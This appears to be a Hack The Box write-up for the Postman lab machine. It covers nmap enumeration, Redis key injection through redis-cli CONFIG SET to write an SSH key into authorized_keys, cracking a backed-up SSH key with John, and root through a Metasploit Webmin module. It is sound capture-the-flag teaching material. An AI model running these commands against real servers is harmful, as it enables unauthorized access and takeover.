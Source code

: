 ```yaml
---
title:     "Hack The Box - Postman"
tags: [linux,easy,redis,john]
categories: HackTheBox
---
```


![](/img/hacktheboxpostman/img8.jpg)

We are going to pwn Postman from Hack The Box. Postman is a easy level linux machine.
Take a cup of tea and let's get started.

Link : <https://www.hackthebox.eu/home/machines/profile/215>

## Enumeration

Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Found that port 80 http is open, so a site must be running. 

![](/img/hacktheboxpostman/img13.jpg)

The site looks to be under construction.
The Only thing I got from webpage is email address at the bottom.

Tried DIRB to find out any sub-directories that may help.

![](/img/hacktheboxpostman/img17.jpg)

![](/img/hacktheboxpostman/img19.jpg)

Tried different wordlists with dirb but the results doesn't reveal any useful directories.
/upload had nothing useful.


Found out that the service “redis” is running on port 6379. 
Interestingly found a nse script for redis-info.

![](/img/hacktheboxpostman/img25.jpg)


## Exploiting Redis

Started reading about the redis in detail and to seehow it works. It is used as an
in-memory distributed database.
Also found this Redis Unauthorized Access Vulnerability that saved my life.
https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e

According to it,
Under certain conditions, if Redis runs with the root account (or not even), attackers can
write an SSH public key file to the root account, directly logging on to the victim server
through SSH. This may allow hackers to gain server privileges, delete or steal data, or
even lead to an encryption extortion, critically endangering normal business services.

Nice. I looked at its simulation and started doing the same process.

Also found another link with the same procedure,
https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html
These blogs saved my life. So I downloaded the redistools on my machine and started
doing the same steps.


First we generate the SSH KEYS with passphrase (90909090 for this case)

```
$ ssh-keygen -t rsa
```

![](/img/hacktheboxpostman/img44.jpg)

Remember, don't leave the passphrase empty. I tried with an empty passphrase and
encountered several problems, idk why. Keep it anything,just dont leave it empty.

Next, enter the .ssh folder. If you are root user,enter /.ssh, otherwise ~/.ssh, then copy
the private key into temp.txt. (or whatever.txt)

```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")> temp.txt
$ cat temp.txt (To Check the Key)
```

![](/img/hacktheboxpostman/img46.jpg)

So far we have generated a pair of keys, we will needto find a way to smuggle the
public key to the Redis server.
We are going to use redis-cli, the Redis command lineinterface, to send commands to
Redis and read the replies sent by the server directlyin the terminal.

```
$ cat temp.txt | redis-cli -h 10.10.10.160 -x setfok
```

Once Done, we have a key with our SSH key sneakedin! Let’s connect to the Redis
and play around its configuration. Use redis-cli toconnect to the Redis server again.
Take a look at the site and follow the same commands.

```
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> get fok (key sent from previouscommand)
10.10.10.160:6379> CONFIG GET dir (Tell which directory you are in)
10.10.10.160:6379> CONFIG SET dir var/lib/redis/.ssh (set default directory of user redis)
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
10.10.10.160:6379> save (save the key)
```

![](/img/hacktheboxpostman/img51.jpg)

Let’s Try to Connect with SSH

Enter your passphrase and voila!

![](/img/hacktheboxpostman/img55.jpg)

TADA!!! Got a user “redis” shell. DAMN!

## Privilege Escalation

Ran to the /home file to find the user named “MATT”.I found the user.txt inside but
> PERMISSION DENIED!

These sites would help a lot :

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://guif.re/linuxeop

https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/

Tried find the SUID Binaries to see if i could exploit them somehow.

![](/img/hacktheboxpostman/img61.jpg)


Tried everything, found the OS, Kernel, Distribution blah blah blah with the above
websites.

Ran LinEnum.sh to get more details.

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

![](/img/hacktheboxpostman/img66.jpg)

Found this through the script,

![](/img/hacktheboxpostman/img67.jpg)

Checked the bash_history of user “redis” : (See something common)


![](/img/hacktheboxpostman/img70.jpg)

Found a backup of Some Private Key inside the /opt/as /opt/id_rsa.bak and copied to
my Machine. (named it user.hash)

![](/img/hacktheboxpostman/img72.jpg)

We convert this private-Key to John Readable Hash with /ssh2john.py so that it can be
cracked with a appropriate wordlist.

$ cd /usr/share/john
You can see lot of keys to john-hash converter python scripts. Use the ssh2john.py
$ ./ssh2john.py {Location of the saved hash} > MATT.hash
This will convert the private ssh key to john readable hash.
$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt MATT.hash

![](/img/hacktheboxpostman/img76.jpg)

YEAH!!! Found the user password for “Matt” to be “computer2008”

Login inside the User “Matt”


![](/img/hacktheboxpostman/img78.jpg)

Yeah, Found the User Hash.

Tears of joy.

Went back to the HTB Forums and found out this hint:
ROOT: As said, you know are able to use an exploit that you couldn't use before.

Went back to Metasploit for the Webmin Exploit I found earlier but that didn't work. So
Let’s try that :

![](/img/hacktheboxpostman/img81.jpg)

It’s the webmin_packageup_rce script. Fired it up and set the options.
Ran the script and voila!!!!

![](/img/hacktheboxpostman/img83.jpg)

It worked! Man I knew what i had to do!

![](/img/hacktheboxpostman/img85.jpg)

Machine rooted!
